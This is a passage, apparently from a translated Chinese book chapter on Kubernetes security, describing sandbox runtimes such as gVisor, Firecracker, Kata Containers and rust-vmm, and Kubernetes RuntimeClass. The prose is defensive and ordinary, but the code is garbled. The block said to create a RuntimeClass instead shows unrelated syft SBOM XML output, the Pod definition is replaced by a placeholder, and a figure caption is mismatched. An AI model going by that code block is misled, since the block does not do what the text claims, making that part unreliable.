它使用 `ptrace` 捕获系统调用，处理并返回响应给进程（通常无需向宿主进行预期的系统调用）。这种简单模型保护了底层内核免受容器内部进程的直接交互。

减少的允许调用次数如图 3-16 所示，限制了底层宿主内核的可利用接口为 68 个系统调用，而容器化应用程序进程则认为它可以访问所有约 350 个内核调用。

平台系统调用切换器，gVisor 的系统调用拦截器，有两种模式：`ptrace` 和 KVM。`ptrace`（“进程跟踪”）系统调用提供了一种机制，让父进程观察和修改另一个进程的行为。`PTRACE_SYSEMU` 强制跟踪的进程在进入下一个系统调用时停止，并且 gVisor 能够对其作出响应或者通过 Gofer 代理请求到宿主内核进行处理。


###### 图 3-16\. gVisor 系统调用层次结构

## Firecracker

Firecracker 是一个虚拟机监视器（VMM），它使用 KVM 为其客户端启动专用 VM。与使用 KVM 的传统设备仿真配对 QEMU 不同，Firecracker 实现了自己的内存管理和设备仿真。它没有 BIOS（而是实现了 Linux Boot Protocol），不支持 PCI，并且简化了虚拟化设备，仅具有单个网络设备、块 I/O 设备、定时器、时钟、串行控制台和键盘设备，仅模拟 Ctrl-Alt-Del 以重置 VM，如图 3-17 所示。


###### 图 3-17\. Firecracker 与 KVM 交互；来源：[资源共享](https://oreil.ly/s1DjO)

启动客户端虚拟机的 Firecracker VMM 进程又由 *jailer* 进程启动。 *jailer* 配置 VMM 沙箱的安全配置（GID 和 UID 分配、网络命名空间、创建 chroot、创建 `cgroups`），然后终止并将控制权传递给 Firecracker，在客户端内核和启动的用户空间周围执行 `seccomp`。

Firecracker 不像 gVisor 那样使用第二进程进行 I/O，而是使用 KVM 的 virtio 驱动程序通过 VMM（如 图 3-18 中所示）从客户端的 Firecracker 进程代理到主机内核。当 Firecracker VM 镜像启动时，它会在客户端内核的保护模式下启动，永远不会在其真实模式下运行。


###### 图 3-18\. Firecracker 将客户端内核与主机隔离

###### 提示

Firecracker 可与 Kubernetes 和 OCI 兼容，使用 [firecracker-containerd shim](https://oreil.ly/rRswg)。

一旦启动，Firecracker 比传统的 LXC 或 gVisor 调用更少的主机内核代码，尽管它们在启动其沙箱时都会触及类似数量的内核代码。

通过隔离内存栈和将数据延迟刷新到页缓存而不是磁盘，提高文件系统性能。它支持任意 Linux 二进制文件，但不支持通用 Linux 内核。它是为 AWS Lambda 服务创建的，是从 Google 的 ChromeOS VMM，crosvm 中分叉出来的：

> crosvm 的独特之处在于其专注于编程语言内的安全性，并在虚拟设备周围创建沙箱，以保护内核免受设备漏洞利用的攻击。
> 
> [Chrome OS 虚拟机监视器](https://oreil.ly/dbaZ5)

Firecracker 是一个静态链接的 Rust 二进制文件，与 Kata Containers、[Weave Ignite](https://oreil.ly/lUQ4Y)、[firekube](https://oreil.ly/zn0Nc) 和 [firecracker-containerd](https://oreil.ly/pluqR) 兼容。它提供软分配（直到实际使用时才分配内存）以实现更激进的“二进制包装”，从而实现更高的资源利用率。

## Kata Containers

最后，Kata Containers 包含一个轻量级虚拟机，其中包含一个容器引擎。它们被高度优化以运行容器。它们也是最古老、最成熟的最新沙箱技术之一。它们兼容性广泛，支持大多数容器编排器。

Kata Containers（图 3-19）从 Intel Clear Containers 和 Hyper.sh RunV 的组合中发展而来，用一个专用的 KVM 虚拟机包装容器，并从可插拔后端（QEMU、QEMU-lite、NEMU（一种定制的精简 QEMU）、或 Firecracker）进行设备仿真。它是一个 OCI 运行时，因此支持 Kubernetes。


###### 图 3-19\. Kata Containers 架构

Kata Containers 运行时在客户机 Linux 内核上启动每个容器。每个 Linux 系统都在其自己的硬件隔离 VM 上，正如您在图 3-20 中所见。

`kata-runtime`进程是 VMM，也是 OCI 运行时的接口。`kata-proxy`通过 KVM 的`virtio-serial`处理`kata-agent`（因此也处理应用程序）的 I/O，并在同一连接上多路复用命令通道。

`kata-shim`是容器引擎的接口，处理容器的生命周期、信号和日志。


###### 图 3-20。Kata Containers 组件

客户机使用 KVM 和 QEMU 或 Firecracker 启动。该项目曾两次分支 QEMU 以尝试轻量级启动时间，并重新实现了一些功能到 QEMU，现在 QEMU 已优先于 NEMU（最近的分支）。

在 VM 内部，QEMU 引导了一个优化过的内核，`systemd`启动了`kata-agent`进程。`kata-agent`使用`libcontainer`管理在 VM 内部运行的容器，并与`runc`共享大量代码。

网络由集成 CNI（或 Docker 的 CNM）提供，并为每个 VM 创建一个网络命名空间。由于其网络模型，无法加入主机网络。

SELinux 和 AppArmor 目前未实现，并且某些 OCI 不一致性[限制了 Docker 集成](https://oreil.ly/VUz84)。

## rust-vmm

许多新的 VMM 技术都有一些 Rustlang 组件。那么，Rust 是否好用呢？

它与 Golang 类似，具有内存安全性（内存模型、virtio 等），但建立在内存所有权模型之上，避免了包括释放后使用、双重释放和悬空指针问题在内的整类错误。

它具有安全且简单的并发性，没有垃圾收集器（可能会带来一些虚拟化开销和延迟），而是使用构建时分析来发现分段错误和内存问题。

[rust-vmm](https://oreil.ly/vs5f7)是一个新的 VMM 开发工具包，如图 3-21 所示。它由虚拟化组件构成的一组构建块（Rust 包或“crate”）组成。这些组件经过了充分测试（因此更安全），并提供了简单、干净的接口。例如，`vm-memory` crate 是一个客户端内存抽象，提供客户端地址、内存区域和客户端共享内存。



###### 图 3-21。Kata Containers 组件；来源：[资源共享](https://oreil.ly/s1DjO)

该项目起源于 ChromeOS 的`cross-vm`（`crosvm`），后来被 Firecracker 分支，并被抽象为“从头开始”的 Rust crate 虚拟化管理程序。这种方法将支持即插即用的 Hypervisor 架构的开发。

###### 注意

要了解运行时是如何构建的，您可以查看[Youki](https://oreil.ly/z4PmV)。它是一个用 Rust 编写的实验性容器运行时，实现了`runc`的[runtime-spec](https://oreil.ly/MBWS0)。

# 风险沙箱化

客户进程对主机功能或其虚拟化版本的访问权限和特权程度会影响攻击者在控制客户进程时可用的攻击面。

这些新的沙盒技术正在积极开发中。它是代码，像所有新代码一样，存在可利用的漏洞风险。然而，这是软件的事实，远比完全没有新软件要好得多！

可能这些沙盒尚未成为攻击目标。创新程度和基础知识的要求意味着进入门槛较高。Hashjack 船长可能会优先选择更容易的目标。

从管理员的角度来看，在沙盒中修改或调试应用程序会稍微复杂一些，类似于裸金属和容器化进程之间的区别。这些困难并非不可克服，但需要管理员熟悉底层运行时。

仍然可以运行[特权沙盒](https://oreil.ly/xxRnE)，在客户中具有提升的功能。尽管与特权容器相比风险较少，但用户应注意，任何隔离减少都会增加在沙盒内运行进程的风险。

# Kubernetes 运行时类

Kubernetes 和 Docker 支持同时运行多个容器运行时；在 Kubernetes 中，[Runtime Class](https://oreil.ly/dRHzA)从 v1.20 版本开始稳定。这意味着 Kubernetes 工作节点可以托管在不同容器运行时接口（CRIs）下运行的 Pod，极大地增强了工作负载的隔离性。

使用`spec.template.spec.runtimeClassName`可以通过 CRI 为 Kubernetes 工作负载目标指定一个沙盒。

Docker 能够运行任何符合 OCI 标准的运行时（例如`runc`、`runsc`），但 Kubernetes 使用 CRI。尽管 Kubernetes 尚未区分沙盒类型，我们仍然可以设置节点亲和性和容忍度，以便将 Pod 调度到已安装相关沙盒技术的节点上。

要在 Kubernetes 中使用新的 CRI 运行时，请创建一个非命名空间的`RuntimeClass`：

```
user@host:~ [0]$ syft packages alpine:latest -o cyclonedx
 ✔ Loaded image
 ✔ Parsed image
 ✔ Cataloged packages      [14 packages]
<?xml version="1.0" encoding="UTF-8"?>
<bom xmlns="http://cyclonedx.org/schema/bom/1.2"
     version="1" serialNumber="urn:uuid:086e1173-cfeb-4f30-8509-3ba8f8ad9b05">
  <metadata>
    <timestamp>2021-05-30T19:17:40+01:00</timestamp>
    <tools>
      <tool>
        <vendor>anchore</vendor>
        <name>syft</name>
        <version>0.16.1</version>
      </tool>
    </tools>
    <component type="container">
      <name>alpine:latest</name>
      <version>sha256:d96af464e487874bd504761be3f30a662bcc93be7f70bf</version>
    </component>
  </metadata>
  <components>
  ...
  <component type="library">
      <name>musl</name>
      <version>1.1.24-r9</version>
      <licenses>
        <license>
          <name>MIT</name>
        </license>
      </licenses>
      <purl>pkg:alpine/musl@1.1.24-r9?arch=x86_64</purl>
    </component>
  </components>
</bom>
```

然后在 Pod 定义中引用 CRI 运行时类：

[PRE6]

使用`gvisor`启动了一个新的 Pod。请记住，Pod 所在的节点上必须安装`runsc`（gVisor 的运行时组件）。

# 结论

通常沙盒更安全，容器则较为简单。

在运行敏感或不受信任的工作负载时，您希望缩小沙盒进程与主机之间的接口。这里有一些权衡——调试一个恶意进程变得更加困难，传统的跟踪工具可能不太兼容。

沙盒与容器相比有一般性的性能开销（启动时间约为 50-200ms），对某些工作负载可能是可以忽略不计的，强烈建议进行基准测试。选项也可能受平台或嵌套虚拟化选项的限制。

随着下一代运行时专注于剥离传统兼容性，它们非常小且启动速度非常快（与传统虚拟机相比）—虽然不及 LXC 或`runc`快，但对于 FaaS 提供商来说足够快速扩展规模。

###### 注意

传统的容器运行时，如 LXC 和`runc`，启动速度更快，因为它们在现有内核上运行进程。沙箱需要配置自己的客户内核，这导致启动时间稍长。

管理服务最易于采用，GKE 中的 gVisor 和 AWS Fargate 中的 Firecracker。它们两者，以及 Kata，将在任何支持虚拟化的地方运行，并且未来光明，`rust-vmm`库承诺提供更多运行时以确保有价值的工作负载安全。

在沙箱中将最敏感的工作负载隔离在专用节点上，可以使您的系统对实际妥协具有最大的抵抗力。
